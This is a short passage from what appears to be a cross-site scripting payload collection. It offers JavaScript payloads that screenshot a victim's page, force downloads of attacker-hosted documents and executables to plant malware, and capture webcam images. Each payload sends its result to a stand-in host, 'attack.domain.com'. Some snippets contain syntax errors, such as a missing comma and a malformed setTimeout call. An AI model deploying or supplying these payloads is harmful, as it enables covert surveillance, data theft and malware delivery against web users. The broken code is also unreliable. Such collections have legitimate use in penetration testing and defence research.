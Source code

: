 ### Grab Screenshots

This payload extracts a screenshot of the affected clients browser context at the time when the payload is triggered and exfiltrates it to the attackers web server.

```javascript
<script src=https://html2canvas.hertzen.com/dist/html2canvas.min.js>
html2canvas(document.body)
	.then(canvas =>
			fetch('attack.domain.com', {
					method: 'POST',
					headers: { 'Content-Type': 'application/json' }
					body: JSON.stringify({img: canvas.toDataURL()})
			})
		)
</script>
```

### Forced Download

These payloads take advantage of an XSS vulnerability to trigger a forced download of an attacker controlled file in the affected clients browser. This may be useful when attempting to get malware onto a targets system or to socially engineer the client.

```javascript
frame = document.createElement('iframe');
frame.src = 'attack.domain.com/payloadDocument.docx';
document.body.appendChild(frame);
```

```javascript
<a href=/executable.exe download=executable.exe onclick="if(window.el){return;}el=this;
	fetch('attack.domain.com/payload.exe')
		.then(resp => resp.blob())
		.then(blob =>
			{
				el.href=window.URL.createObjectURL(blob); el.click()
			});

			return false">
			Social Engineering TXT here
</a>
```

### Capture Data From Webcam

This payload is design to exploit a XSS vulnerability to capture data from an affected clients webcam.

```js
vid_element = document.createElement('video')
navigator.mediaDevices.getUserMedia({video:true})
	.then(stream => {
		vid_element.srcObject = stream
		vid_element.play()
		setTimeout(()) => {
			canvas = document.createElement('canvas')
			canvas.width = vid_element.videoWidth
			canvas.height = vid_element.videoHeight
			canvas.getContext('2d').drawImage(vid_element,0,0)

			fetch('attack.domain.com', {
					method: 'POST',
					headers: { 'Content-Type': 'application/json' },
					body: JSON.stringify({img: canvas.toDataURL()})
				})
		}, 2000)
```
